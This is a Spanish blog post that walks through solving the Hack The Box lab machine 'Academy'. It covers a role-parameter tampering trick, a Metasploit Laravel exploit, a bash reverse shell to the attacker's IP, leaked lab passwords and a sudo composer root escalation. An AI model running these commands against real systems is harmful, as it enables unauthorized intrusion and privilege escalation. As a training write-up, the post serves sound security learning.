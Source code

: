 ```yaml
---
layout: single
title: Academy - Hack The Box
excerpt: "Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root."
date: 2021-03-07
classes: wide
header:
  teaser: /assets/images/Academy-Hackthebox/academy.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - Web Exploiting
  - Privilege Escalation
  - Pentesting
  - Linux
---
```


![](/assets/images/Academy-Hackthebox/academy.png)

Resolución de la máquina *Academy* de Hack The Box, una máquina Linux de dificultad fácil según la plataforma en la cual nos aprovechamos del parámetro rolid para crear un usuario administrador en la web, luego utilizamos un exploit para el framework *laravel* para acceder al sistema y por último aprovechamos que podemos ejecutar el comando *composer* con sudo sin contraseña para escalar privilegios y obtener una shell de root.

## Escaneo de puertos

![](/assets/images/Academy-Hackthebox/nmap.png)

Puertos 22,80 y 33060 abiertos.
Empiezo por el 80. Accedo con el navegador a la ip 10.10.10.215 y me dice que no se puede abrir la página.
Veo que en el escaneo con nmap aparece el dominio academy.htb, lo añado al fichero hosts y ya me deja acceder con el nombre del dominio.

![](/assets/images/Academy-Hackthebox/web.png)

Lanzo gobuster para fuzzear los directorios y ficheros de la web.

![](/assets/images/Academy-Hackthebox/gobuster.png)

Mientras tanto me registro en la página y capturo la petición con burpsuite.
Veo que los parámetros que viajan en la petición son:
uid=ximo&password=ximo&confirm=ximo&roleid=0
Me llamala atención el parámetro roleid. Envío la petición al repeater y modifico el valor a 1.
Gobuster descubre una página que se llama admin.php, así que pruebo el usuario que he registrado con el roleid=1 y accedo como admin.

![](/assets/images/Academy-Hackthebox/admin.png)

Gobuster encuentra también un fichero readme dentro del directorio academy, que dice que se está usando un framework llamado laravel.

Me llama la atención esto : Fix issue with dev-staging-01.academy.htb
Lo añado al fichero hosts y accedo a la página.

![](/assets/images/Academy-Hackthebox/dev.png)

Sabiendo que el frameowrk usado es laravel empiezo a buscar vulnerabilidades relacionadas con este framework.
Encuentro un exploit para metasploit y decido usarlo.
Seteo el app_key, que me lo da la web del subdominio en la sección de environment, el rhosts academy.htb, lhost tun0 y vhost dev-staging-01.academy.htb y obtengo una shell.

![](/assets/images/Academy-Hackthebox/msf.png)

Me pongo a la escucha con rlwrap nc -lvnp 9001 y me lanzo una reverse shell para estar más cómodo
`bash -c 'bash -i >& /dev/tcp/10.10.14.191/9001 0>&1'`

Voy al directorio academy y con ls -a veo que hay un fichero .env que puedo leer y que contiene unas credenciales.

![](/assets/images/Academy-Hackthebox/creds.png)

En el directorio home hay varios usuarios, pruebo la contraseña con todos y hay uno que funciona.

```
su cry0l1t3
Password: mySup3rP4s5w0rd!!
```

Ya puedo leer el fichero user.txt

Subo a la máquina el script linpeas.sh y lo ejecuto y encuentro la contraseña del usuario mrb3n –> mrb3n_Ac@d3my!

![](/assets/images/Academy-Hackthebox/linpeas.png)


Con el comando su me convierto en el usuario mrb3n

![](/assets/images/Academy-Hackthebox/su.png)

Con sudo -l veo que puedo ejecutar el comando composer como root

![](/assets/images/Academy-Hackthebox/sudo.png)

Busco composer en gtfobins y veo que hay una forma de explotarlo cuando se puede usar con sudo

![](/assets/images/Academy-Hackthebox/gtfobins.png)

Ejecuto los comandos y obtebgo la shell de root

```
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

![](/assets/images/Academy-Hackthebox/root.png)

Ya puedo leer el root.txt

